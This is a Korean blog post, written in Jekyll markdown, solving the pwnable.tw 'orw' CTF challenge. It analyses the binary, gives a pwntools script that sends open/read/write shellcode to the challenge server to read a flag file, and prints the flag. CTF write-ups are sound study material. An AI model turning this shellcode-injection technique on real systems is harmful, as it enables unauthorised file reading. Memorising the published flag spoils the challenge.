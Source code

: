 ```yaml
---
layout: post
title: "[pwnable.tw] orw 풀이"
date: 2018-05-30 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## orw [100 pts]
### Read the flag from `/home/orw/flag`.
### Only `open` `read` `write` syscall are allowed to use.
### `nc chall.pwnable.tw 10001`
### [orw](https://pwnable.tw/static/chall/orw)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/orw/01.png)
{: refdef}

32bit에 canary가 걸려있네여

{: refdef: style="text-align: center;"}
![IDA](/img/pwnable.tw/orw/02.png)
{: refdef}

IDA로 열어보면 쉘코드를 달라합니다아.

문제를 다시 보면 `open`, `read`, `write`를 쓰라고 하네여

- - -
# 0x01. 공격 방법

1. `open` : `/home/orw/flag`

2. `read` : `open`한 파일 읽기

3. `write` : `read`한 내용 출력

간단간단 합니다.

이제 쉘코드를 만들어 보내면 끝인데 `pwntools`의 `shellcraft`를 사용하겠습니다.

[이 사이트](https://docs.pwntools.com/en/stable/)를 뒤져보면 `pwntools`의 `shellcraft` 사용법도 나옵니다!

- - -
# 0x02. 익스플로잇

크기는 넉넉하게 `0x100`만큼 받았습니닷!

```python
#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10001

############################################

s = remote(HOST, PORT)

elf = ELF("./orw")
#libc = ELF("./")
pause()

############################################

payload = asm(shellcraft.open("/home/orw/flag"))
payload += asm(shellcraft.read("eax", "esp", 0x100))
payload += asm(shellcraft.write(1, "esp", 0x100))

s.send(payload)

s.interactive()
```

### FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
